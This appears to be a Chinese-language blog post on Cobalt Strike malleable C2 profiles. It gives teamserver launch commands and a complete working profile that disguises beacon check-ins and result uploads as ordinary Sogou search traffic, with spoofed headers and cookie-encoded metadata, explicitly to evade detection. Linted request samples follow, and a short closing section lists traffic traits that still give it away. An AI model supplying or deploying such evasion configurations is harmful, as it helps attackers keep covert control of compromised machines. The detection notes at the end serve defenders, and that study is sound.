





# Cobalt Strike之profile分析
### CS使用profile启动
```bash
#先对profile进行测试
./c2lint xxx.profile
```

```bash
#启动cs
./teamserver ip password xxx.profile
```
后面步骤与正常使用CS一致

### CS中经常使用profile进行流量的伪装 伪装成看起来正常的web流量 从而骗过各种检测
下面编写一个简单的profile进行测试
```
set sleeptime "3000";#设置心跳时间(单位ms)
set jitter "10";#设置心跳抖动
set useragent "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36";#User-Agent
#get请求的伪装(get请求通常为受控阶段)
http-get{
    set uri "/hdq=sogou-wsse-3f7bcd0b3ea82268&ie=utf-8&query=1";

    client {
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8";
        header "Host" "www.sogou.com";
        header "Referer" "https://www.qq.com/";

        metadata {
            base64;
            prepend "session=";
            header "Cookie";
        }

    }

    server {
        header "Server" "nginx";
        header "X-Log-Ext" "antiforbidden=1&exp_1=1&exp_2=1";
        output {
        print;
        }
    }

}
#post请求伪装(post请求通常为返回结果阶段)
http-post{
    set uri "/hdq=&query=1";

    client {
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8";
        header "Host" "www.sogou.com";
        header "X-Requested-With" "XMLHttpRequest";
        header "Referer" "https://www.qq.com/";


        id {
            parameter "aleen";
        }

        output {
            base64;
            print;
        }

    }

    server {
        header "Server" "nginx";
        header "X-Log-Ext" "antiforbidden=1&exp_1=1&exp_2=1";

        output {
        print;
        }
    }

}
```
profile测试
```
http-get
--------
GET /hdq=sogou-wsse-3f7bcd0b3ea82268&ie=utf-8&query=1 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Host: www.sogou.com
Referer: https://www.qq.com/
Cookie: session=9LXD/C/CPhSjq7H+SlZ+3w==
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36

HTTP/1.1 200 OK
Server: nginx
X-Log-Ext: antiforbidden=1&exp_1=1&exp_2=1
Content-Length: 64

.$.~.._zw....ui.<.UgV.\..E.bx.G*.......lJ.."]..;.....d.&.*^..QpJ

http-post
---------
POST /hdq=&query=1?aleen=22049 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Host: www.sogou.com
X-Requested-With: XMLHttpRequest
Referer: https://www.qq.com/
Content-Length: 24
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36

Uv8rlFoIMtjHLDsbOm1TJA==

HTTP/1.1 200 OK
Server: nginx
X-Log-Ext: antiforbidden=1&exp_1=1&exp_2=1
Content-Length: 0

```
抓取流量(这里使用hashdump演示)
分为两个阶段:
>1:client向server发送心跳包 server向client发送执行的命令


>2:client将结果返回给server server一般返回content为空



### 心跳包的抓取
client上线后会定时向server发送一个心跳包

心跳包的发送时间与profile中的设置相关，上面设置为3s一次，抖动为10%</br>
这样大约每过约2.7~3.3s就会发送一次心跳包

心跳包中的大部分字段相相同 不同的地方是cookie 也就是我们设置用来伪装的地方
心跳包只是client链接server 所以server不需要返回 一般情况下content为空
### Tricks
这里尽管使用了profile进行伪装，仍可以发现:
>1:在1阶段中client请求字段位于URI或者cookie中 server返回的数据非常大(含有相应的操作指令)</br>
>2:在2阶段中client返回结果位于content中 server通常不返回数据(server只需接收返回结果而无需响应)</br>
>3:流量中有大量时间较为规律、内容相类似的数据包且server返回数据为空或较为固定的数据包
